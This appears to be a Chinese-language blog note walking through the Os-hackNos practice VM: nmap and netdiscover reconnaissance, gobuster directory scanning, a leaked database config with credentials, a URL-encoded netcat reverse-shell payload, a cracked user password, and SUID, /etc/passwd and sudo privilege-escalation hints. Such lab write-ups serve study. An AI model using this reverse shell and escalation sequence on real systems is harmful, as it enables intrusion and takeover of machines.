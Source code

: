 ```yaml
---
title: os-hack
date: 2020-11-28 09:23:30
tags: 靶机渗透
---
```


# Os-hackNos

# 一 信息收集

```
netdiscover -i eth0 -r 10.10.10.0/24 扫描ip
nmap -sP 192.168.43.0/24  扫描开放的端口
```

```
使用“-sP”选项，我们可以简单的检测网络中有哪些在线主机，该选项会跳过端口扫描和其他一些检测。
```

```
开始对目标进行扫描nmap -p 10.10.10.0 -sV -oA Os-hackNos-1
```

```
namp  -Pn -sV +ip 基础扫描
加一个 -O
-A 路由信息 服务器的详细信息
-v 扫描过程 
-p 后面可以加端口服务的范围
-F 快速扫描
-iL 导入文本文件扫描 批量
-oN 保存文本
-oX 保存 xml文件
--open 只显示开放端口
```

使用gobuster 进行利用`usr/share/wordlists/dirbuster`的字典来测试

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'cuppa',
      'username' => 'cuppauser',
      'password' => 'Akrn@4514',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

```
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f%7c/bin/sh+-i+2%3e%261%7cnc+192.168.43.16+1234+%3e/tmp/f
```

```
james:Hacker@4514
```

```
find / -perm -u=s -type f 2>/dev/null
```

寻找带有特权的文件。想办法替换/etc/passwd，就可以实现更改密码了。

超强小马软件：https://blog.csdn.net/qq_45521281/article/details/106587791

```
sudo -l 可能发现一些命令可以执行root权限，而且没有密码要求哦。
```

